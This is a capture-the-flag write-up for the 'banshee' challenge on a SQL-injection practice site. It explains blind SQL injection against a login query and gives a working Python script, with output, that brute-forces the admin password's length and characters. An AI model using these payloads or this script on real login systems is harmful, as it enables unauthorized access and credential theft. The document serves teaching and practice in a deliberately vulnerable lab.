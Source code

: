 ```yaml
---
custom_edit_url: null
sidebar_position: 39
tags: [SQLi, Blind SQL injection]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a61aad74-8281-41ed-a2ae-9a7202c94f06)

We are provided with the SQLite query.

```sql
SELECT id FROM member WHERE id='admin' AND pw='{$_GET[pw]}'
```

In order to solve this challenge, we have to perform blind SQL injection.

&nbsp;

## Blind SQL injection

### Extracting the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=[length] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="banshee_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p4hrm6i519s3gb9g95dqsmqk8v'}
url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "login success!" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "login success!" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\banshee_script.py     

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%273%27+--+-
[+] Character at index 2: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%271%27+--+-
[+] Character at index 3: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%273%27+--+-
[+] Character at index 4: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%270%27+--+-
[+] Character at index 5: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%279%27+--+-
[+] Character at index 6: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%271%27+--+-
[+] Character at index 7: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='b' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27b%27+--+-
[+] Character at index 8: b

[!] Extracted password: 0313091b
[!] Final payload: ?pw=0313091b
```

If we provide the following URI parameter:

```
?pw=0313091b
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='0313091b'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8f2545dd-41be-4133-869a-cb3d3820f33d)
